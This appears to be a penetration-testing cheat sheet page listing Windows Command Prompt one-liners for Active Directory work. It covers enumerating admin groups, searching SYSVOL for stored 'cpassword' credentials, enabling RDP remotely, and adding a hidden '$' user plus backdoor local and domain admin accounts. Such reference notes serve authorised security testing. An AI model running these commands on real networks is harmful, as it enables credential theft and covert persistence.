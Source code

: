 ```yaml
---
title : "cmd"
# pre : '<i class="fas fa-code"></i> '
description : "Microsoft Command Prompt."
date : 2020-07-09T12:52:37+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CMD - Command Prompt

{{%attachments title="Related files" fa_icon_class="far fa-file" pattern=".*(exe)"/%}}

### Show Domain Admins / Enterprise Admins

`net group "Domain Admins" /domain`

`net group "Enterprise Admins" /domain`

### Run CMD on non-domain joined machine as domain user

`runas /netonly /user:<DOMAIN>\<USER> cmd.exe`

Use the `/profile` flag for running the CMD in the context of the user explicitly on a domain joined system.

`runas /profile /user:<DOMAIN>\<USER> cmd.exe`

### Enable access to C-drive in Explorer

`subst z: c:\`

### Finding cpassword

`findstr /s /n /i /p cpassword \\<DOMAIN>\sysvol\*`

### Show privileges current user

```plain
$ whoami /all

USER INFORMATION
----------------

User Name        SID
================ =============================================
win10\johndo S-1-5-21-4192065701-4228146649-662612674-1001


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON                         Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

### List domain controllers (DC)

```cmd
$ nltest /dclist:offsec.nl

Get list of DCs in domain 'offsec.nl' from '\\DC2016.offsec.nl'.
    DC2008R2.offsec.nl [PDC]  [DS] Site: Default-First-Site-Name
      DC2016.offsec.nl        [DS] Site: Default-First-Site-Name
      DC2019.offsec.nl        [DS] Site: Default-First-Site-Name
The command completed successfully
```

### Add less visible user

Local admin required.

`net user $ LetMeIn123! /add /active:yes`

### Enable / disable Remote Desktop (RDP)

You can enable (remotely) Remote Desktop (RDP) by adjusting the register key. Tip: use 'smbexec.py' / 'wmiexec.py' to enable on remote system where RDP is not enabled. Or use the CrackMapExec module RDP see [CrackMapExec]({{< ref "tools/framework/crackmapexec" >}}).

Enable

`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`

Disable

`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f`

### Add Local Admin via CMD

Creation of the user 'NewLaForMe' - `net user NewLAForMe "NotThatStrongPassword@" /add /Y`

Adding the user to the group - `net localgroup Administrators NewLAForMe /add`

### Add Domain Admin / Enterprise Admin via CMD

Creation of the user 'NewDAForMe' - `net user NewDAForMe "NotThatStrongPassword@" /add /domain /Y`

Adding the user to the group - `net group "Domain Admins" NewDAForMe /add /domain` / `net group "Enterprise Admins" NewDAForMe /add /domain`

Set user status to Active - `net user NewDAForMe /active:yes /domain`

Set user expire date - `net user NewDAForMe /expires:07/19/23 /domain`
